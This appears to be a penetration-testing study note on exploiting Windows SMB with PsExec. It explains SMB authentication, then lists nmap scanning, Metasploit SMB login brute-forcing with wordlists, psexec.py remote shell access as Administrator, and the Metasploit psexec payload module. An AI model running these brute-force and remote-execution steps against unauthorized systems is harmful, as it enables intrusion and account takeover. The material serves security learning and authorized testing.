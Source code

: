 <h1>Exploiting SMB with PsExec</h1>
<h2>SMB</h2>
<ul>
  <li>SMB(Server Message Block) is a network file sharing protocol that is used to faciliate the sharing of files and peripherals (printers and serial ports) between computers on local network(LAN)</li>
  <li>SMB uses port 445 (TCP). However originally, SMB ran on top of NetBIOS using port 139.</li>
  <li>SAMBA is the open source Linux implementation of SMB, and allows Windows system to access Linux shares and device.</li>
</ul>
<h2>SMB Authentication</h2>
<ul>
  <li>The SMB protocol utilizes two levels of authentication, namely:</br>1. User Authentication</br>2. Share Authentication</li>
  <li>User authentication - User must provide a username and password in order to authenticate with the SMB server in order to access a share.</li>
  <li>Share authentication - Users must provide a password in order to access restricated share.</li>
</ul>
Note: Both of these authentication levels utilize a challenge response authentication system.
<h2>PsExec</h2>
<ul>
  <li>PsExec is a lightweight telnet - replacement developed by microsoft that allows you execute porcesses on remote windows system using any user's credentials.</li>
  <li>PsExec authentication is performed via SMB.</li>
  <li>We can use the PsExec utility to authenticate with the target system legitimately and run arbitary commands or launch a remote command prompt.</li>
  <li>It is very similar to RDP, however, instead of controlling the remote system via GUI, command are sent via CMD.</li>
</ul>
<h2>SMB Exploitatin with PsExec</h2>
<ul>
  <li>In order to utilize PsExec to gain access to a windows target, we will need to identify legitimate user accounts and their respective passwords or passwrod hashes.</li>
  <li>This can be done by leveraging various tools and techniques, however, the most common technique will involve performing and SMB login brute-force attack.</li>
  <li>We can narrow down our brute-force attack to only include common Windows user accounts like: <br>-Administrator</li>
  <li>After we have obtained a legitimate user account and password, we can use the credentials to authenticate with the target system via PsExec and execute arbitrary system commands or obtain a reverse shell.</li>
</ul>

<hr>
<h3>Nmap Scan</h3>
<code>nmap -Sv -sC {ip}</code>
<h3>SMB brute force</h3>
<code>service postgresql start && msfconsole</code></br>
<span>After running msfconsole</span></br>
<code>search smb_login</code></br>
<code>use auxiliary/scanner/smb/smn_login</code></br>
<code>show options</code></br>
<code>set USER_FILE /usr/shar/metaspolit-framework/data/wordlists/common_user.txt</code></br>
<code>set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt</code></br>
<code>set RHOST {ip}</code></br>
<span>It will not show all atempts, only show found password</span><br><code>set VERBOSE false</code>
<h3>Now in new terminal</h3>
<code>psexec.py Administrator@{ip} cmd.exe</code></br>
Now it will prompt to enter passwrod, so enter password which you got form bruteforce<br>
After entering password, We can get cmd 
<br>
<hr>
<h3>exploiting form metasploit</h3><br>
1. search psexec<br>
2. use exploit/windows/smb/psexec
3. set RHOSTS
4. set SMBUser 
5. set SMBPass 
<br>
It may detect my windows defender because it send payload and then it will provide you session 






